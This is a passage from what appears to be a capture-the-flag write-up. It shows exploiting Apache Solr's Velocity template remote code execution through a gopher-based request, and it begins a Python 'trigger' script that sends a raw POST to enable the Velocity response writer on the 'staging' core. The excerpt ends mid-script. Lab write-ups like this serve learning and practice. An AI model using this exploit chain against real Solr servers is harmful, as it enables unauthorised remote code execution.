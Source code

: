 Interesting. I wonder what's behind `8983/tcp`?

### Apache Solr RCE via Velocity template

The most recent and relevant exploit on Apache Solr that I could find without any prequisites is EDB-ID [47572](https://www.exploit-db.com/exploits/47572). There's one small problem though—I don't know the core.

> In Solr, the term _core_ is used to refer to a single index and associated transaction log and configuration files

Well, recall the specification? The core was actually hinted very subtly.

{% include image.html image_alt="2aff6441.png" image_src="/77e0085d-3198-472a-9f56-bf0531cc9eb3/2aff6441.png" %}

If I had to guess, I would say **staging** is the core name. For the exploit to work, we need to send in a POST request to set `params.resource.loader.enabled` to `true`. How are we going to do that with `curl`? Enter [Gopher](https://en.wikipedia.org/wiki/Gopher_(protocol)). I've decided to split the proof-of-concept into two components for reasons that will be clear later: a _trigger_ and an _exploit_, the trigger obviously to set the above said parameter to `true` and the exploit to execute remote command.

<div class="filename"><span>trigger.py</span></div>

```python
import grpc
import service_pb2
import service_pb2_grpc

import base64, pickle, urllib

json = '''
{
    "version": "v1.0",
    "title": "Printer Feed",
    "home_page_url": "http://printer.laserinternal.htb/",
    "feed_url": "%s",
    "items": [
        {
            "id": "2",
            "context_text": "Queue jobs"
        },
        {
            "id": "1",
            "context_text": "Failed items"
        }
    ]
}
'''


def trigger(url):

    headers  = ""
    headers += "POST /solr/staging/config HTTP/1.1\r\n"
    headers += "Host: localhost:8983\r\n"
    headers += "Content-Type: application/json\r\n"
    headers += "Content-Length: %d\r\n"
    headers += "\r\n"
    headers += "%s"

    payload  = '{\r\n'
    payload += '  "update-queryresponsewriter": {\r\n'
    payload += '    "startup": "lazy",\r\n'
    payload += '    "name": "velocity",\r\n'
    payload += '    "class": "solr.VelocityResponseWriter",\r\n'
```